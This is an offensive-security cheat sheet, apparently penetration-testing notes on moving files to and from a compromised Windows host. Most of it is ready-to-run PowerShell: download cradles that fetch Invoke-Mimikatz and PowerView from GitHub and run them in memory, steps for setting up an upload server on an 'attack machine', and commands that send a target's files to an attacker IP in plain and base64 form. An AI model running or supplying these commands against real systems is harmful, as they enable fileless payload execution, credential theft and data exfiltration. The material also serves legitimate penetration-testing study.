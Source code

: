 ### PowerShell DownloadString - Fileless Method

- `IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')`
- `(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX`

### PowerShell Invoke-WebRequest

> Slower

- `Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1` You can use the aliases iwr, curl, and wget instead of the Invoke-WebRequest full name.

- [Powershell Download cradle by HarmJ0y](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)
- `Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX` Use `-UseBasicParsing` in case first launch config has not been completed in Internet Explorer.
- `IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')` Bypass error SSL/TLS error.

## PowerShell Web Uploads

> PowerShell doesn't have a built-in function for upload operations, but we can use Invoke-WebRequest or Invoke-RestMethod to build our upload function. We'll also need a web server that accepts uploads, which is not a default option in most common webserver utilities.

### Installing a Configured WebServer with Upload

#### On your attack machine

- `pip3 install uploadserver`
- `python3 -m uploadserver`

#### In your target

- Powershell [script](https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1) to upload a file to Python Upload Server

```ps
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

- Powershell Base64 Web Upload

```ps
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

#### On your attack machine
